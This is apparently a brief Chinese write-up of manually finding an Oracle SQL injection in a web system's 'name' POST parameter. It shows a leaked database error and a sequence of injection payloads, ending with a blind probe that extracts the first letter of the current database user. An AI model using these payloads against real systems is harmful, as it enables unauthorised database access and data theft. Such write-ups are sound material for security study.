 # 记一次手工oracle注入的挖掘

收获：想想or语句  
环境为阿里云测试服务器，新上线系统。  
首先在post数据中的name字段添加测试字符，报错如下：  

```txt
pagenum=1&pagesize=20&name=1'&phone=&type=-1&isyunying=1

HTTP/1.1 200
Content-Type: application/json;charset=UTF-8
Date: Wed, 06 Mar 2019 03:06:37 GMT
Connection: close
Content-Length: 899

{"data":null,"success":false,"id":0,"count":0,"pages":0,"errcode":null,"errmsg":"\r\n### Error querying database.  Cause: java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n\r\n### The error may exist in file [D:\\apache-tomcat-8.5.37\\webapps\\admin\\WEB-INF\\classes\\mapper\\UserMapper.xml]\r\n### The error may involve com.kkeye.wdwx.admin.mapper.UserMapper.getList-Inline\r\n### The error occurred while setting parameters\r\n### SQL: select count(0) from (select tu.*,tui.amount,tui.cnt from wdwx_t_user tu left join wdwx_t_userinfo tui on tui.userid=tu.id          WHERE  tu.isyunying=?                          and tu.nickname like '%1'%'          order by tu.id desc) tmp_count\r\n### Cause: java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n\n; bad SQL grammar []; nested exception is java.sql.SQLSyntaxErrorException: ORA-00911: 无效字符\n","ope_pm":false,"pms":null}
```

注意其中sql报错：
`select count(0) from (select tu.*,tui.amount,tui.cnt from wdwx_t_user tu left join wdwx_t_userinfo tui on tui.userid=tu.id    WHERE  tu.isyunying=?  and tu.nickname like '%1'%'    order by tu.id desc)`

like 后面的位置存在注入。会使用   `'% %'`将输入值包围起来。

使用`pagenum=1&pagesize=20&name=1%'or'%'='&phone=&type=-1&isyunying=1`发现异常。

后续使用 `pagenum=1&pagesize=20&name=1'or 1=1--+&phone=&type=-1&isyunying=1`成功获得返回值。

最后使用如下语句确认存在注入，并得到用户名首字母。
`pagenum=1&pagesize=20&name=1' or ascii(substr(SYS_CONTEXT('USERENV','CURRENT_USER'),1,1))=87 --+&phone=&type=-1&isyunying=1`